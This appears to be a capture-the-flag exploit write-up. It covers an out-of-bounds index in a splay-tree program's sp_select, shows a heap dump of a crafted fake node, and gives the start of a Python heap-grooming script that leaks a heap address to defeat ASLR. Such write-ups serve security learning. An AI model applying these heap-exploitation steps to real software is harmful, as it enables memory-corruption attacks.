 By controlling the `node_idx` parameter (which we do) we can perform an `sp_select` on any "node" on the heap, since there is **no bounds check**. The `sp_select` function looks like this:
```c
/* libsplaid.so.1 */
sp_node sp_select(sp_tree *tree, sp_node *node_to_select) {
  sp_node *result;

  result = splay(node_to_select, tree->func_2);
  tree->root_node = result;
  return result;
}

```

We have to ensure a couple of things to guarantee the program doesn't crash during the **splay**:
 1. `node_to_select` is a valid pointer to a node (or null)
 2. `node_to_select->parent`, `node_to_select->left`, `node_to_select->right` are all null or another valid node

## Exploit
### Heap Leak
To defeat ASLR we need to leak some addresses. The first leak we need is a heap address. This will allow us to have more control over the fake node we are selecting. We achieve this with the Out-Of-Bounds Read (**OOBR**) we found before.

After a bit of experimentation, we were able to setup the heap to have this **fake node** we can index to (and doesn't crash on splay):
```
tree->nodes[node_idx]
    |
    v
0x555555758858: 0x0000000000000000  --> node->node_val
0x555555758860: 0x0000555555758718  --> node->node_val_2 (will be printed)
0x555555758868: 0x0000000000000000  --> node->unk_4
0x555555758870: 0x0000000000000006  --> node->unk_1
0x555555758878: 0x000000000001f791  --> node->node_i
0x555555758880: 0x0000000000000000  --> node->parent
0x555555758888: 0x0000000000000000  --> node->left
0x555555758890: 0x0000000000000000  --> node->right
0x555555758898: 0x0000000000000000  --> node->sz
```

As we have seen before `node->node_val_2` is printed, allowing us to leak an heap address and **de-randomize the heap**.

This is the code we wrote to accomplish it:
```python
    # ==========
    # Leak heap ptr
    # ==========
    log.info("Leaking a heap addr:")

    # This values were found by trial and error
    N = 16
    del_N = 10
    idx = 27

    # Create and delete nodes to setup the heap for our leak
    for _ in range(N):
        create_node(s)

    for k in range(del_N):
        del_node(s, k)

    # `select_node` is vulnerable to an OOBR
```